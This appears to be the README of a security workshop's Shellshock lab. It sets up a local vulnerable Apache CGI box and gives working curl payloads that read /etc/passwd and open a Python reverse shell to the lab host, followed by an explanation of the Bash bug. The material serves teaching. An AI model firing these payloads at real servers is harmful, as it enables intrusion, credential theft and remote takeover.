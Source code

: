 # Part 2 of the AppSec 101 injection workshop
### Created by Cade Cairns <cade@thoughtworks.com> and Chelsea Komlo <ckomlo@thoughtworks.com>

# Getting started on the Shellshock demo for this workshop

All necessary instruction & demo materials can be found within the shellshock subfolder
  
## Setup
   1. Set up a vagrant box using this vagrant file. This will install Apache and forward to port 8080.
   2. Create a cgi file in /usr/lib/cgi-bin. It can be as simple as html content type "hello world."
   3. Test the following vulnerabilities against http://localhost:8080/cgi-bin/somefileofyourchoice.sh


## Demoing the vulnerability
### To test via the command line:

```sh
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```
(If you see "vulnerable" you need to update bash. Otherwise, you should be good to go.)


#### Via curl:

#### To just echo data:

```sh
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; echo 'hi world of exploits'" http://localhost:8080/cgi-bin/shellshock_test.sh
```

#### To copy passwords:
```sh
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:8080/cgi-bin/shellshock_test.sh
 ```

#### To create a reverse shell:
 ```sh
curl -H "UserAgent: () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.2\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno    (),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" http://localhost:8080/cgi-bin/shellshock_test.sh
 ```


## More information about Shellshock:
 Source: https://en.wikipedia.org/wiki/Shell_shock

This is a major vulnerability that occurs when specific characters are included as part of a variable definition in Bash.

Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition.

If the characters "{ :;};" are included as the function definition, any arbitrary code that is inserted AFTER that definition is processed. This isn't supposed to happen.

### Why is CGI vulnurable?

The Common Gateway Interface (CGI) vector (an interface between a web server and executables that produce dynamic content) has received the bulk of the focus from attackers thus far. However, the reac    h of the BASH Shellshock bug doesn’t stop at web servers. Any application that relies on user-controlled data to set OS-level environment variables and then invokes the shell from that same context can trigger the vulnerability. In other words, web applications relying on a specific type of user input can be manipulated to make clients (i.e., consumers) vulnerable to attack.
 
 Because CGI relies on environment variables set in the header which are later interpreted to generate dynamic content, it is vulnerable to this kind of attack.
>>>>>>> CK Adding in shellshock demo info

Built using [reveal.js 3.0](https://github.com/hakimel/reveal.js/tree/3.0.0)
